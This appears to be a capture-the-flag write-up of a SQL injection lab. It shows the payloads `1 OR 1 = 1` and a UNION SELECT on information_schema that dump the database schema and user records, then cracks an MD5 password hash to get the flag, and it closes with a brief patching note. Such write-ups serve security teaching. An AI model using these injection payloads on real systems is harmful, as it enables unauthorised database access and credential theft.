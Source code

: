 # [SQL_Injection](https://owasp.org/www-community/attacks/SQL_Injection)

## WriteUp
On the `member` page, there is a prompt that allows us to search for a user within the database by specifying their ID. Entering a number between 1 and 4 renders the first and last name of the user on the webpage.

Checking for Sql injections, we can pass the prompt `1 OR 1 = 1`. This causes all members to be rendered out, meaning we can preform SQL Injections on the database. To gather data on the all the tables within the database and their columns, let use the prompt `1 OR 1 = 1 UNION SELECT table_name,column_name FROM information_schema.columns`.

This causes the webapp to render out all tables within the database and their colums, here is a simplified view:
``` ts
db = {
	"db_default": {
		"id": number,
		"username": string,
		"password": string,
	},
	"users": { // members
		"user_id": number,
		"first_name": string,
		"last_name": string,
		"town": string,
		"country": string,
		"planet": string,
		"Commentaire": string, 
		"coubtersign": string, // md5 hash
	},
	"guestbook": { //
		"id_comment": number,
		"comment": string,
		"name": string,
	},
	"list_images": { // Images
		"id": number,
		"url": string,
		"title": string,
		"comment": string,
	},
	"vote_dbs": {
		"vote": any, // I have no idea
		"nb_vote": number,
		"subject": string,
	},
}
```

Using `1 UNION SELECT first_name,%colunm% FROM users`, where `%column%` is a column in `users`, we can leak all the colunms for each user in `users`. We get the folowing user that looks interesting:
``` json
{
  "users": { // members
    "user_id": 4,
	"first_name": "Flag",
	"last_name": "Get The",
	// ...
	"Commentaire": "Decrypt this password -> then lower all the char. Sh256 on it and it's good !", 
	"coubtersign": "5ff9d0165b4f92b14994e5c685cdce28", // md5 hash
  },
}
```

Decripting the password with an [MD5 decryptor](https://md5decrypt.net/en/#answer), we get the password `FortyTwo`, getting the Sha256 of `fortytwo` nets us the flag.

## Possible Patches
Sanitizing your input and parameterizing your input is the best way to prevent sql injections. By removing/encoding dangerous characters you can prevent injections from happening.